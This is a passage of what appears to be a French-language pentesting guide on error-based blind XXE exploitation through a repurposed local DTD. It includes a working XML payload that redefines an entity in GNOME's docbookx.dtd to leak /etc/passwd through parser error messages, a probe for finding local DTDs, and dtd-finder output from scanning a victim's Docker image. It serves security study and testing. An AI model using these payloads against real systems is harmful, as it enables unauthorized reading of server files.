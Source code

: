 
- La définition d'une entité de paramètre XML nommée `local_dtd` inclut le fichier DTD externe situé sur le système de fichiers du serveur.
- Une redéfinition se produit pour l'entité de paramètre XML `custom_entity`, initialement définie dans le DTD externe, pour encapsuler un [exploit XXE basé sur les erreurs](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages). Cette redéfinition est conçue pour provoquer une erreur de parsing, exposant le contenu du fichier `/etc/passwd`.
- En utilisant l'entité `local_dtd`, le DTD externe est engagé, englobant la nouvelle entité définie `custom_entity`. Cette séquence d'actions entraîne l'émission du message d'erreur visé par l'exploit.

**Exemple du monde réel :** Les systèmes utilisant l'environnement de bureau GNOME ont souvent un DTD à `/usr/share/yelp/dtd/docbookx.dtd` contenant une entité appelée `ISOamso`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
![](<../images/image (625).png>)

Comme cette technique utilise un **DTD interne, vous devez d'abord en trouver un valide**. Vous pouvez le faire en **installant** le même **OS / logiciel** que celui utilisé par le serveur et en **cherchant quelques DTD par défaut**, ou en **récupérant une liste** de **DTD par défaut** dans les systèmes et en **vérifiant** si l'un d'eux existe :
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Pour plus d'informations, consultez [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)

### Trouver des DTD dans le système

Dans le superbe dépôt github suivant, vous pouvez trouver **des chemins de DTD qui peuvent être présents dans le système** :

{{#ref}}
https://github.com/GoSecure/dtd-finder/tree/master/list
{{#endref}}

De plus, si vous avez **l'image Docker du système victime**, vous pouvez utiliser l'outil du même dépôt pour **scanner** l'**image** et **trouver** le chemin des **DTD** présents dans le système. Lisez le [Readme du github](https://github.com/GoSecure/dtd-finder) pour apprendre comment.
```bash
java -jar dtd-finder-1.2-SNAPSHOT-all.jar /tmp/dadocker.tar

Scanning TAR file /tmp/dadocker.tar

[=] Found a DTD: /tomcat/lib/jsp-api.jar!/jakarta/servlet/jsp/resources/jspxml.dtd
Testing 0 entities : []

[=] Found a DTD: /tomcat/lib/servlet-api.jar!/jakarta/servlet/resources/XMLSchema.dtd
Testing 0 entities : []
```